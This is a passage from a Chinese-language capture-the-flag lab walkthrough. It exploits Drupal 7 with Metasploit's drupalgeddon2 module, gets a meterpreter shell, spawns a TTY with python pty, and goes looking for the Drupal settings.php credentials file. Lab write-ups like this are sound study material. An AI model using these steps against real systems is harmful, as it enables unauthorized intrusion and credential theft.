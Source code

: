 

漏洞利用

获取flag1

1. 在msf中看看有没有Drupal 7 的exp

命令：msfconsole

msf6 > search Drupal

![8](https://havocykp.github.io/assets/images/img_blog3/8.png)

利用poc

msf6 > use exploit/unix/webapp/drupal_drupalgeddon2 

并配置相关的设置项

命令：show options

![9](https://havocykp.github.io/assets/images/img_blog3/9.png)

设置攻击目标

![10](https://havocykp.github.io/assets/images/img_blog3/10.png)

运行，直接反弹成功

![11](https://havocykp.github.io/assets/images/img_blog3/11.png)

使用 ls 查看目录

![12](https://havocykp.github.io/assets/images/img_blog3/12.png)

获取 flag2

查看flag1.txt 文本内容

![13](https://havocykp.github.io/assets/images/img_blog3/13.png)

按照提示信息，查看其配置文件

首先进入交互式

meterpreter > shell

使用python反弹一个交互式shell TTY

python -c 'import pty; pty.spawn("/bin/bash")'

![14](https://havocykp.github.io/assets/images/img_blog3/14.png)

经查看，其路径：/var/www/sites/default/settings.php

![15](https://havocykp.github.io/assets/images/img_blog3/15.png)

查看配置文件
